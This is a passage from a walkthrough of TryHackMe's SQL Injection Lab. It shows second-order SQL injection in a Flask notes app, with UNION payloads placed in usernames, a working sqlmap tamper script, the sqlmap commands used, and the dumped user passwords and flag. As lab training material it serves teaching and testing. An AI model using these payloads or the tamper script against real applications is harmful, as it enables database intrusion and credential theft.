[08:51:56] [INFO] testing for SQL injection on POST parameter 'username'
[08:51:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[08:51:56] [WARNING] reflective value(s) found and filtering out
got a 302 redirect to 'http://10.64.183.154:5000/challenge3/home'. Do you want to follow? [Y/n] 

redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] y
[08:52:25] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[08:52:26] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=405)
[08:52:26] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[08:52:26] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 140 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-5278' OR 4552=4552-- pClN&password=admin
---
[08:52:38] [INFO] testing SQLite
[08:52:39] [INFO] confirming SQLite
[08:52:39] [INFO] actively fingerprinting SQLite
[08:52:40] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:52:40] [INFO] fetching tables for database: 'SQLite_masterdb'
[08:52:40] [INFO] fetching number of tables for database 'SQLite_masterdb'
[08:52:40] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[08:52:40] [INFO] retrieved: 1
[08:52:41] [INFO] retrieved: users
[08:52:48] [INFO] retrieved: CREATE TABLE users (     id integer primary key,     username text unique not null,     password text not null )
[08:55:47] [INFO] fetching entries for table 'users'
[08:55:47] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[08:55:47] [INFO] retrieved: 5
[08:55:49] [INFO] retrieved: 1
[08:55:51] [INFO] retrieved: THM{<REDACTED>}
[08:56:58] [INFO] retrieved: admin
[08:57:04] [INFO] retrieved: 3
[08:57:06] [INFO] retrieved: asd
[08:57:11] [INFO] retrieved: amanda
[08:57:19] [INFO] retrieved: 2
[08:57:20] [INFO] retrieved: Summer2019!
[08:57:37] [INFO] retrieved: dev
[08:57:42] [INFO] retrieved: 5
[08:57:44] [INFO] retrieved: 345m3io4hj3
[08:58:01] [INFO] retrieved: emil
[08:58:07] [INFO] retrieved: 4
[08:58:08] [INFO] retrieved: viking123
[08:58:22] [INFO] retrieved: maja
Database: <current>
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{<REDACTED>}                       | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

[08:58:29] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.64.183.154/dump/SQLite_masterdb/users.csv'
[08:58:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.64.183.154'

[*] ending @ 08:58:29 /2025-12-26/
```

Answer: `THM{<REDACTED>}`

### Task 7: Vulnerable Startup: Vulnerable Notes

#### Goal

Here, the previous vulnerabilities have been fixed, and the login form is no longer vulnerable to SQL injection. The team has added a new note function, allowing users to add notes on their page. The goal of this challenge is to find the vulnerability and dump the database to find the flag.

#### Description

By registering a new account and logging in to the application, the user can navigate to the new note function by clicking "Notes" in the top left menu. Here, it is possible to add new notes, and all the user's notes are listed on the bottom of the page, as seen here:



The notes function is not directly vulnerable, as the function to insert notes is safe because it uses parameterized queries. With parameterized queries, the SQL statement is specified first with placeholders (?) for the parameters. Then the user input is passed into each parameter of the query later. Parameterized queries allow the database to distinguish between code and data, regardless of the input.

```sql
INSERT INTO notes (username, title, note) VALUES (?, ?, ?)
```

Even though parameterized queries are used, the server will accept malicious data and place it in the database if the application does not sanitize it. Still, the parameterized query prevents the input from leading to SQL injection. Since the application might accept malicious data, all queries must use parameterized queries, and not only for queries directly accepting user input.

The user registration function also utilizes parameterized queries, so when the query below is executed, only the INSERT statement gets executed. It will accept any malicious input and place it in the database if it doesn't sanitize it, but the parameterized query prevents the input from leading to SQL injection.

```sql
INSERT INTO users (username, password) VALUES (?, ?)
```

However, the query that fetches all of the notes belonging to a user does not use parameterized queries. The username is concatenated directly into the query, making it vulnerable to SQL injection.

```sql
SELECT title, note FROM notes WHERE username = '" + username + "'
```

This means that if we register a user with a malicious name, everything will be fine until the user navigates to the notes page and the unsafe query tries to fetch the data for the malicious user.

By creating a user with the following name:

```text
' union select 1,2'
```

We should be able to trigger the secondary injection:



With this username, the application performs the following query:

```sql
SELECT title, note FROM notes WHERE username = '' union select 1,2''
```

Then on the notes page as the new user, we can see that the first column in the query is the note title, and the second column is the note itself:



With this knowledge, this is rather easy to exploit. For example, to get all the tables from the database, we can create a user with the name:

```text
' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''
```

To find the flag among the passwords, register a user with the name:

```text
'  union select 1,group_concat(password) from users'
```

**Automating Exploitation Using Sqlmap**

It is possible to use sqlmap to automate this attack, but a standard attack with sqlmap will fail. The injection happens at the user registration, but the vulnerable function is located on the notes page. For sqlmap to exploit this vulnerability, it must do the following steps:

1. Register a malicious user
2. Login with the malicious user
3. Go to the notes page to trigger the injection

It is possible to achieve all of the necessary steps by creating a tamper script. Sqlmap supports tamper scripts, which are scripts used for tampering with injection data. With a tamper script, we can easily modify the payload, for example, adding a custom encoding to it. It also allows us to set other things, such as cookies.

There are two custom functions in the tamper script below. The first function is *create_account()*, which register a user with sqlmap's payload as name and 'asd' as password. The next custom function is *login()*, which logs sqlmap in as the newly created user and returns the Flask session cookie. *tamper()* is the main function in the script, and it has the payload and `**kwargs` as arguments. `**kwargs` holds information such as the HTTP headers, which we need to place the Flask session cookie onto the request to allow sqlmap to go to the notes page to trigger the SQL injection. The *tamper()* function first gets the headers from kwargs, then creates a new user on the application, and then it logs in to the application and sets the Flask session onto the HTTP header object.

```python
#!/usr/bin/python

import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://10.10.1.134:5000/challenge4"
password = "asd"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)


def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```

The folder where the tamper script is located will also need an empty `__init__.py` file for sqlmap to be able to load it. Before starting sqlmap with the tamper script, **change the address and password variable** inside the script. With this done, it is possible to exploit the vulnerability with the following command:

```bash
sqlmap --tamper so-tamper.py --url http://10.10.1.134:5000/challenge4/signup  --data "username=admin&password=asd" --second-url http://10.10.1.134:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast

# --tamper so-tamper.py - The tamper script
# --url - The URL of the injection point, which is /signup in this case
# --data - The POST data from the registraion form to /signup. 
#   Password must be the same as the password in the tamper script
# --second-url http://10.10.1.134:5000/challenge4/notes - Visit this URL to check for results
# -p username - The parameter to inject to
# --dbms sqlite - To speed things up
# --technique=U - The technique to use. [U]nion-based
# --no-cast - Turn off payload casting mechanism
```

Dumping the *users* table might be hard without turning off the payload casting mechanism with the `--no-cast` parameter. An example of the difference between casting and no casting can be seen here:

```text
-- With casting enabled:
admin' union all select min(cast(x'717a717071' as text)||coalesce(cast(sql as text),cast(x'20' as text)))||cast(x'716b786271' as text),null from sqlite_master 
where tbl_name=cast(x'7573657273' as text)-- daqo'
-- 7573657273 is 'users' in ascii

-- Without casting:
admin' union all select cast(x'717a6a7871' as text)||id||cast(x'6774697a7462' as text)||password||cast(x'6774697a7462' as text)||username||cast(x'7162706b71' as text),null 
from users-- ypfr'
```

When sqlmap asks, answer **no** to follow 302 redirects, then answer **yes** to continue further testing if it detects some WAF/IPS. Answer **no** when asked if you want to merge cookies in future requests, and say **no** to reduce the number of requests. As seen in the image below, sqlmap was able to find the vulnerability, which allows us to automate the exploitation of it.



The flag can then be found by dumping the *users* table:

```bash
sqlmap --tamper tamper/so-tamper.py --url http://10.10.1.134:5000/challenge4/signup --data "username=admin&password=asd" --second-url http://10.10.1.134:5000/challenge4/notes -p username --dbms=sqlite --technique=U --no-cast -T users --dump
```

Sqlmap is quite noisy and will add a lot of users attempting to exploit this application. Because of this, the output will be trimmed and the message below can be seen.

```text
[WARNING] console output will be trimmed to last 256 rows due to large table size
```

However, all the data is saved and written to a dump file, as seen in the image below. Read the top of the dump file to get the flag:



**NB**: The flag will differ on the live system.

#### Task

Exploit the vulnerable function and retrieve the flag.

---------------------------------------------------------------------------------------

#### What is the flag for this challenge?

First, we create the so-tamper.py script with updated IP and password to use with sqlmap.

```python
#!/usr/bin/python

import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

address = "http://10.64.183.154:5000/challenge4"
password = "cajac"

def dependencies():
    pass

def create_account(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/signup", data=data)

def login(payload):
    with requests.Session() as s:
        data = {"username": payload, "password": password}
        resp = s.post(f"{address}/login", data=data)
        sessid = s.cookies.get("session", None)
    return "session={}".format(sessid)

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    create_account(payload)
    headers["Cookie"] = login(payload)
    return payload
```

together with an empty `__init__.py` file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/SQL_Injection_Lab]
└─$ touch '__init__.py'
```

Next, we verify with sqlmap that the application is vulnerable

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/SQL_Injection_Lab]
└─$ sqlmap --tamper so-tamper.py --url http://10.64.183.154:5000/challenge4/signup --data "username=admin&password=cajac" --second-url http://10.64.183.154:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast
        ___
       __H__                                                                                                                                                                                                 
 ___ ___[,]_____ ___ ___  {1.9.8.10#dev}                                                                                                                                                                     
|_ -| . [']     | .'| . |                                                                                                                                                                                    
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:38:07 /2025-12-26/

[09:38:07] [INFO] loading tamper module 'so-tamper'
[09:38:08] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.64.183.154:5000/challenge4/login?next=http://10.64.183.154:5000/challenge4/notes'. Do you want to follow? [Y/n] n
[09:38:31] [INFO] checking if the target is protected by some kind of WAF/IPS
[09:38:32] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS
are you sure that you want to continue with further target testing? [Y/n] 

you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[09:39:02] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[09:39:03] [INFO] testing for SQL injection on POST parameter 'username'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[09:39:12] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[09:39:14] [WARNING] reflective value(s) found and filtering out
[09:39:40] [INFO] target URL appears to be UNION injectable with 2 columns
[09:39:44] [INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[09:39:44] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 32 HTTP(s) requests:
---
Parameter: username (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=admin' UNION ALL SELECT NULL,CHAR(113,107,113,122,113)||CHAR(115,104,88,89,109,115,120,110,81,109,100,109,84,77,112,65,77,114,115,82,87,113,72,112,81,68,101,104,98,106,100,117,110,101,81,98,90,121,104,102)||CHAR(113,98,113,98,113)-- UVxW&password=cajac
---
[09:40:23] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[09:40:23] [INFO] testing SQLite
[09:40:24] [INFO] confirming SQLite
[09:40:25] [INFO] actively fingerprinting SQLite
[09:40:26] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[09:40:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.64.183.154'

[*] ending @ 09:40:26 /2025-12-26/
```

Then we dump the users table with sqlmap

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/SQL_Injection_Lab]
└─$ sqlmap --tamper so-tamper.py --url http://10.64.183.154:5000/challenge4/signup --data "username=admin&password=cajac" --second-url http://10.64.183.154:5000/challenge4/notes  -p username --dbms sqlite --technique=U --no-cast -T users --dump
        ___
       __H__                                                                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.9.8.10#dev}                                                                                                                                                                     
|_ -| . [)]     | .'| . |                                                                                                                                                                                    
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:41:54 /2025-12-26/

[09:41:54] [INFO] loading tamper module 'so-tamper'
[09:41:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.64.183.154:5000/challenge4/login?next=http://10.64.183.154:5000/challenge4/notes'. Do you want to follow? [Y/n] n
[09:42:05] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=admin' UNION ALL SELECT NULL,CHAR(113,107,113,122,113)||CHAR(115,104,88,89,109,115,120,110,81,109,100,109,84,77,112,65,77,114,115,82,87,113,72,112,81,68,101,104,98,106,100,117,110,101,81,98,90,121,104,102)||CHAR(113,98,113,98,113)-- UVxW&password=cajac
---
[09:42:05] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[09:42:05] [INFO] testing SQLite
[09:42:06] [INFO] confirming SQLite
[09:42:06] [INFO] actively fingerprinting SQLite
[09:42:06] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[09:42:06] [INFO] fetching columns for table 'users' 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] n
[09:42:43] [WARNING] reflective value(s) found and filtering out
[09:42:43] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[46 entries]
+----+---------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | password                              | username                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
+----+---------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | rcLYWHCxeGUsA9tH3GNV                  | admin                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 2  | asd                                   | dev                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 3  | Summer2019!                           | amanda                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 4  | 345m3io4hj3                           | maja                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 5  | THM{4644c7e157fd5498e7e4026c89650814} | xxxFLAGxxx                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 6  | viking123                             | emil                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 7  | whatever                              | '  union select 1,group_concat(password) from users'                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 8  | cajac                                 | ' union select 1,group_concat(password) from users'                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 9  | cajac                                 | admin'.).),.",)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 10 | cajac                                 | admin'sismpe<'">rkgbts                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 11 | cajac                                 | admin') order by 1-- wbhe                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 12 | cajac                                 | admin') union all select null-- kmjz                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 13 | cajac                                 | admin') union all select null,null-- eemu                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 14 | cajac                                 | admin') union all select null,null,null-- ycje                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 15 | cajac                                 | admin') union all select null,null,null,null-- qusa                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 16 | cajac                                 | admin') union all select null,null,null,null,null-- onfv                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 17 | cajac                                 | admin') union all select null,null,null,null,null,null-- tncd                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 18 | cajac                                 | admin') union all select null,null,null,null,null,null,null-- ecuq                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 19 | cajac                                 | admin') union all select null,null,null,null,null,null,null,null-- ftwf                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 20 | cajac                                 | admin') union all select null,null,null,null,null,null,null,null,null-- hanb                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 21 | cajac                                 | admin') union all select null,null,null,null,null,null,null,null,null,null-- vcex                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 22 | cajac                                 | admin' order by 1-- xico                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 23 | cajac                                 | admin' union all select null-- rcod                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 24 | cajac                                 | admin' union all select null,null-- qqqz                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 25 | cajac                                 | admin' union all select null,null,null-- raip                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 26 | cajac                                 | admin' union all select null,null,null,null-- fupv                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 27 | cajac                                 | admin' union all select null,null,null,null,null-- cgfq                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 28 | cajac                                 | admin' union all select null,null,null,null,null,null-- pcsk                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 29 | cajac                                 | admin' union all select null,null,null,null,null,null,null-- saaa                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 30 | cajac                                 | admin' union all select null,null,null,null,null,null,null,null-- jv                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 31 | cajac                                 | admin' union all select null,null,null,null,null,null,null,null,null-- kdgp                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 32 | cajac                                 | admin' union all select null,null,null,null,null,null,null,null,null,null-- mtgl                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 33 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||char(115,104,88,89,109,115,120,110,81,109,100,109,84,77,112,65,77,114,115,82,87,113,72,112,81,68,101,104,98,106,100,117,110,101,81,98,90,121,104,102)||char(113,98,113,98,113)-- uvxw                                                                                                                                                                                                                                                        |
| 34 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||char(115,104,88,89,109,115,120,110,81,109,100,109,84,77,112,65,77,114,115,82,87,113,72,112,81,68,101,104,98,106,100,117,110,101,81,98,90,121,104,102)||char(113,98,113,98,113) union all select null,char(113,107,113,122,113)||char(75,66,106,118,101,85,77,121,74,90,101,88,111,120,121,113,104,79,104,119,75,66,68,109,114,115,119,77,88,99,89,113,118,111,68,71,88,88,88,69)||char(113,98,113,98,113)-- ppbw                             |
| 35 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||char(115,104,88,89,109,115,120,110,81,109,100,109,84,77,112,65,77,114,115,82,87,113,72,112,81,68,101,104,98,106,100,117,110,101,81,98,90,121,104,102)||char(113,98,113,98,113) from (select 0 as xnel union select 1 union select 2 union select 3 union select 4 union select 5 union select 6 union select 7 union select 8 union select 9 union select 10 union select 11 union select 12 union select 13 union select 14) as yhjc-- mezk |
| 36 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (23=23) then 1 else 0 end))||char(113,98,113,98,113)-- qdpz                                                                                                                                                                                                                                                                                                                                                               |
| 37 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (23=42) then 1 else 0 end))||char(113,98,113,98,113)-- beos                                                                                                                                                                                                                                                                                                                                                               |
| 38 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (23=52) then 1 else 0 end))||char(113,98,113,98,113)-- wnbm                                                                                                                                                                                                                                                                                                                                                               |
| 39 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (52=42) then 1 else 0 end))||char(113,98,113,98,113)-- fqgj                                                                                                                                                                                                                                                                                                                                                               |
| 40 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (42=42) then 1 else 0 end))||char(113,98,113,98,113)-- crjh                                                                                                                                                                                                                                                                                                                                                               |
| 41 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (52 42) then 1 else 0 end))||char(113,98,113,98,113)-- xaet                                                                                                                                                                                                                                                                                                                                                               |
| 42 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (last_insert_rowid()=last_insert_rowid()) then 1 else 0 end))||char(113,98,113,98,113)-- tdfz                                                                                                                                                                                                                                                                                                                             |
| 43 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (sqlite_version()=sqlite_version()) then 1 else 0 end))||char(113,98,113,98,113)-- igsy                                                                                                                                                                                                                                                                                                                                   |
| 44 | cajac                                 | admin' union all select null,char(113,107,113,122,113)||(select (case when (randomblob(-1) is not null) then 1 else 0 end))||char(113,98,113,98,113)-- dmxu                                                                                                                                                                                                                                                                                                                                          |
| 45 | cajac                                 | admin' union all select null,max(char(113,107,113,122,113)||sql)||char(113,98,113,98,113) from sqlite_master where type=char(116,97,98,108,101) and tbl_name=char(117,115,101,114,115)-- ddyr                                                                                                                                                                                                                                                                                                        |
